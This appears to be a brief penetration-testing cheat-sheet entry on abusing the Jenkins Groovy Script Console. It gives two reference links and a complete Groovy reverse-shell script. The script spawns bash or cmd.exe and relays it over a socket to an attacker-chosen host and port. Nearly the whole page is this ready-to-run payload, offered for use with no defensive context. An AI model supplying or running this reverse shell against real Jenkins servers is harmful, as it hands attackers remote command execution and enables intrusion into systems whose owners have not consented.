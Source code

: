 # Jenkis




## Script Console Abuse

* [https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6](https://blog.pentesteracademy.com/abusing-jenkins-groovy-script-console-to-get-shell-98b951fa64a6)
* [https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

Manage Jankis → Script Console → Run:

```groovy
String host = "<LHOST>";
int port = <LPORT>;
String cmd = "bash";  // or "cmd.exe" for Windows

Process p = new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s = new Socket(host, port);

InputStream pi = p.getInputStream(), pe = p.getErrorStream(), si = s.getInputStream();
OutputStream po = p.getOutputStream(), so = s.getOutputStream();

while (!s.isClosed()) {
    while (pi.available() > 0)
        so.write(pi.read());
    while (pe.available() > 0)
        so.write(pe.read());
    while (si.available() > 0)
        po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try {
        p.exitValue();
        break;
    } catch (Exception e) {}
};

p.destroy();
s.close();
```
